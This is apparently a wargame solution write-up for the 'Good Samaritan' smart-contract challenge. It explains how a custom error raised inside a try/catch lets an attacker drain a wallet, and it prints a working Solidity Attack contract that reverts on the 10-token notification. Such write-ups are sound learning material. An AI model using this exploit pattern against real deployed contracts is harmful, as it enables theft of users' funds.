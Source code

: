 ## Description
At the first call wallet.donate10(msg.sender) we get to coin.transfer(dest_, 10); and from there we get to INotifyable(dest_).notify(amount_);. 
We need to get an error keccak256(abi.encodeWithSignature("NotEnoughBalance()")) to make a second call to the function - wallet.transferRemainder(msg.sender);. There should be no error when calling it again. 
It is convenient that the amount is passed to INotifyable and you can immediately determine when the error is needed and when it is not.
```
contract Attack{
    GoodSamaritan public goodSamaritan;

    error NotEnoughBalance();
    
    constructor(address payable _goodSamaritan){
        goodSamaritan = GoodSamaritan(_goodSamaritan);
    }

    function attack() public {
        goodSamaritan.requestDonation();
    }

    function notify(uint256 amount) public {
        if(amount == 10){
            revert NotEnoughBalance();
        }
        
    }

}
```
I've learned a little bit about try\catch in solidity and I'm kind of used to custom errors, since I haven't used them before.
![](try_catch.jpg)


